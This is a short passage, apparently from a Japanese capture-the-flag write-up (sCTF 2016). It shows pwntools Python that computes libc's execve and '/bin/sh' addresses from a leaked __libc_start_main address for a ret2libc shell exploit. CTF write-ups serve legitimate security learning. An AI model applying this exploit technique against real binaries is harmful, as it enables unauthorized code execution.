 ```python
addr_libc_binsh = 0x18cd57
```

### 残り

後はいろいろもろもろリークさせたアドレスから計算。


```python
addr_start_main= buf[32:38] + b"\x00\x00"
addr_start_main = pwn.u64(addr_start_main)
addr_offset = addr_start_main - addr_libc_start_main
addr_execve = addr_offset + addr_libc_execve
addr_binsh = addr_offset + addr_libc_binsh
```

## 参考

- [sCTF 2016 Q1 writeup - yuta1024's diary](http://yuta1024.hateblo.jp/entry/2016/04/29/215700)

	
